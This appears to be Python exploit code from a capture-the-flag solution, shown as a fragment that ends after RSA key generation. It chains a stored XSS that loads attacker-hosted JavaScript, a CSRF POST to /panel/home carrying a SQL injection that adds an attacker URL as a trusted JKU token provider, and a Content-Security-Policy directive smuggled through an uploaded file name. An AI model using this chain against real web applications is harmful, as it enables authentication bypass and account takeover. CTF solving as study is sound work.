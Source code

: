 ```python


char_string = "char(" + ", ".join([f'{ord(i)}' for i in f'{HTTP_SERVER}/pub.json']) + ")"

# XSS payload
# CSRF to /panel/home with SQLi payload to add new jku provider
js_source = """
var details = {
    'field': 'identifier',
    'query_eq': 'a\\\\',
    'query_like': ';INSERT INTO trusted_external_token_providers(host_url) VALUES(""" + char_string + """)-- -'
};

var formBody = [];
for (var property in details) {
  var encodedKey = encodeURIComponent(property);
  var encodedValue = encodeURIComponent(details[property]);
  formBody.push(encodedKey + "=" + encodedValue);
}
formBody = formBody.join("&");

fetch(`/panel/home`, { 
    method: 'POST', 
    credentials: 'include',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
      },
    body: formBody
})
"""

with open('./test.js', "w") as fh:
    fh.write(js_source)

body['antivirus'] = f"<script src=\"{HTTP_SERVER}/test.js\"></script>"

# change to your image name
f = "file.png"
with open(f, "rb") as fh:
    r = sess.post(
		f"http://{url}:{port}/comms/update/{ID}/{token}", 
		data=body, 
		files={
			# file name will inject into CSP
			"image": ("; script-src 'none'; script-src-elem *; img-src blah.png", fh, "text/html")
		}
	)
# debug
print(r.text)

# boilerplate code copied from chal to replicate key gen
private_key = rsa.generate_private_key(
	public_exponent=65537,
	key_size=2048
)

pem_private_key = private_key.private_bytes(
	encoding=serialization.Encoding.PEM,
	format=serialization.PrivateFormat.PKCS8,
	encryption_algorithm=serialization.NoEncryption(),
).decode()

```